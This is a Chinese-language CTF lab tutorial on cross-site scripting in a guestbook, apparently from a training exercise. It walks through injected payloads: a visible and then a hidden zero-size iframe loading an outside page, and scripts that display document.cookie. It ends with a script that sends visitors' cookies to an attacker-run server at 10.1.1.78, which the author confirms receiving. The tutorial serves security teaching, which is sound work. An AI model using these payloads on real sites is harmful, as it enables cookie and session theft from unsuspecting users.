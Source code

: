 # CTF - XSS跨站脚本攻击

[TOC]

## XSS跨站漏洞利用

### 利用XSS跨站漏洞加载恶意网页

将恶意网页（假设`http://www.heetian.com`）放入留言系统数据库，并在用户端执行；

1. 增加一留言，并在留言内容中改为 `<iframe src="http://www.heetian.com"></iframe>`，测试返回效果。

   ![image-20200823180011273](image\image-20200823180011273.png)

   ![158](image\6266eea1-494b-4ee9-bb5e-449af8ee0c88.png)

2. 隐藏恶意网页。

   增加留言，内容包含以下语句：`<iframe src=http://www.baidu.com width="0" height="0"></iframe>`，观察返回状态，网页被执行，但未在留言系统界面中显示。这样如果是攻击脚本就可以用此方法隐藏自己。



### 利用XSS跨站漏洞窃取用户cookie

1. 添加留言，包含以下内容：`<script>document.write(document.cookie)</script>`

   结果如图所示：

      ![159](image\9fc9bb1c-c181-4051-99ac-fcd038cd4542.png)

2. 添加留言，包含以下内容：`<script>alert(document.cookie)</script>`

   观察显示的cookie有什么不同？

      ![img](image\3559096b-6323-488e-a349-41a55ea11944.jpg)

3. 搭建WEB服务器，以便进一步保存浏览用户的cookie。

   添加留言，包含以下内容：`<script>document.write("<iframe width=0 height=0 src='http://10.1.1.78/cookie.asp?cookie="+document.cookie+"'></iframe>");</script>`

      ![164](image\c72f833f-e10e-424d-adb7-151a49e19612.png)

4.  提交留言后观察目标服务器页面，没有看到异常现象，如下图所示：

     ![165](image\72a8b172-63ae-4ea4-ac35-191518cada89.png)

   再打开本地页面，查看接收浏览用户的cookie接收情况：

      <img src="image\765d19f7-c6a4-487f-9ceb-de269574aea4.png" alt="img"  />

   可以看到，已经接收到用户的cookie了，这些cookie包含了所有浏览该页面的信息，如果是登录用户的话，cookie包含了用户的用户名与密码信息。